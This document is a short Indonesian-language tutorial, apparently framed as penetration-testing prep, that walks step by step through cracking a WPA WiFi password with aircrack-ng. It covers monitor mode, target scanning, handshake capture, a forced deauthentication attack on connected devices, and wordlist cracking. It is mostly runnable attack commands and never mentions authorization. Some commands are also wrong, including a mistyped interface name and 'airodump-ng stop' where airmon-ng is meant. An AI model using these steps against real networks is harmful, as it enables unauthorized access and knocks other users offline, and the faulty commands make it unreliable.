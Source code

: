 # Pre Pentesting
1. Siapkan worldlist / kumpulan dari password, dapat dilakukan secara manual atau menggunakan tools yang sudah ada
# Brute Force Wireless Password using Aircrack-ng
1.  Aktifkan monitor mode (gantilan wlan0 dengan interface WiFi yang tersedia)
```
airmon-ng start wlan0
```
kemudian cek kembali interface dengan perintah ifconfig untuk mengetahui apakah interface sudah berubah ke monitor mode

2. Scan jaringan WiFi
```
airodump-ng wlan0mon
```
Catat BSSID dan Channel (CH) dari target

3. Mulai mengcapture Handshake
```
airodump-ng -c [CHANNEL] --bssid [BSSID TARGET] -w capture wlam0mon
```
* [CHANNEL] adalah nomor dari channel WiFi target
* [BSSID] adalah alamat MAC dari jaringan target
* capture adalah nama file hasil tangkapan Handshake

Tunggu hingga ada perangkat yang terhubung, bila tidak mendapatkan Handshake lakukan secara paksa agar perangkat reconnect
```
aireplay-ng -0 10 -a [BSSID] wlan0mon
```
Handshake akan berhasil ditangkap ketika muncul [WPA Handshake: BSSID] di sudut kanan atas terminal

4. Crack password menggunakan wordlist
Setelah mendapatkan handshake (capture-01.cap)
```
aircrack-ng -w password.txt -b [BSSID] capture-01.cap
```
* password.txt adalah kumpulan dari password yang sebelumnya telah dibuat
* capture-01.cap adalah file hasil dari tangkapan Handshake sebelumnya

5. Setelah mendapatkan password, matikan Monitor Mode agar interface kembali ke mode normal
```
airodump-ng stop wlan0mon
```
